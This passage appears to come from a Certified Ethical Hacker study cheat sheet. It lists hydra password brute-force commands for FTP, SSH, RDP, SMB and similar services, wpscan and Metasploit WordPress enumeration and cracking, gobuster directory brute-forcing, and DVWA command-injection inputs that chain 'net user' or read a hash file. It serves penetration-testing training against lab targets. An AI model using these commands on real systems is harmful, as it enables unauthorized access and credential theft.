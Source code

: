 - `hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://[host]`<br>
- `hydra -l root -P passwords.txt [-t 32] [host] ftp<br>
- `hydra -L usernames.txt -P pass.txt [host] mysql<br>
- `hydra -l USERNAME -P /path/to/passwords.txt -f [host] pop3 -V`<br>
- `hydra -V -f -L <userslist> -P <passwlist> rdp://[host]`<br>
- `hydra -P common-snmp-community-strings.txt target.com snmp<br>
- `hydra -l Administrator -P words.txt [host] smb t 1<br>
- `hydra -l root -P passwords.txt [host] ssh<br>

### wpscan

Wordpress site only Users Enumeration<br>
wpscan --url http://example.com/ceh --enumerate u<br>

Direct crack if we have user/password detail<br>
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt<br>
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt<br>

## 7. Hacking WebServers & WebApps

**Directory Bruteforcing**<br>
gobuster dir -u [host] -w /home/attacker/Desktop/common.txt

**Enumerate a Web Application using WPscan & Metasploit**<br>
wpscan --url http://[host]:[port]/NEW --enumerate u  (u means username) <br>
Then type msfconsole to open metasploit. <br>
Type -  use auxilliary/scanner/http/wordpress_login_enum<br>
 						 show options<br>
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt<br>
						 set RHOSTS [host]  (target ip)<br>
						 set RPORT <pot>    (target port)<br>
						 set TARGETURI http://[host]:<pot>/<br>
						 set USERNAME admin

**Find if application is vulnerable to XSStrike**<br>
git clone https://github.com/s0md3v/XSStrike<br>
cd XSStrike<br>
pip install -r requirements.txt<br>
python xsstrike.py -u http://www.cehorg.com

**Command Injection**<br>
10.10.10.25:8080/DVWA<br>
use admin/password to login<br>
click on Command Injection<br>
10.10.10.25 will ping<br>
lower security to low in DVWA security<br>
127.0.0.1 && net user<br>
127.0.0.1 && type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt<br>

### Nslookup<br>
**To verify Website's Ip**<br>
Nslookup wwww.example.com
